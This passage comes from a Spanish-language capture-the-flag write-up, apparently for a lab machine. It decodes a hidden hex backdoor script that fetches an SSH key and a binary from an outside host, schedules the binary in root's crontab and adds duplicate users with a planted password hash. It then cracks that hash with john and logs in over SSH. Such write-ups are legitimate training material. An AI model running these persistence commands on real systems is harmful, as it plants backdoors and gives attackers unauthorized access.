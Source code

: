 Podemos reconocer que el formato es **Hexadecimal** así que lo decodeamos y encontramos una serie de comandos:

```shell
❯ cat hiddenHexData.txt | xxd -r -p | tr ';' '\n' | sed 's/^ //g'
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys
wget tempfiles.xyz/.main -O /var/lib/.main
chmod 755 /var/lib/.main
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd
while read -r user group home shell _
do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt
rm users.txt
```
{: .nolineno }

Leyendo el código vemos que se está creando un usuario en base a uno ya existente, en otras palabras es el mismo usuario. Podemos verificar esto con un `cat /etc/passwd | grep bash` en la máquina víctima:

```console
www-data@production:/var/backups$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
steven:x:1000:1000:Steven Wright:/home/steven:/bin/bash
steven1:x:1000:1000:,,,:/home/steven:/bin/bash
    \_____________________________________________ User based on steven
```

En la creación del usuario podemos observar la contraseña de `steven1` encriptada. Así que procedemos a desencriptarla, nos logeamos por ssh y pa-dentro:

```shell
❯ echo "steven1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/" > hash
❯ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihatehackers     (steven1)     
1g 0:00:01:09 DONE (2022-04-29 02:30) 0.01436g/s 1279p/s 1279c/s 1279C/s janedoe..halo03
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
❯ sshpass -p "ihatehackers" ssh steven1@10.10.11.146
steven@production:~$ find / -name user.txt 2> /dev/null | xargs ls -l
-rw-r----- 1 root steven 33 Apr 29 04:24 /home/steven/user.txt
```
{: .nolineno }
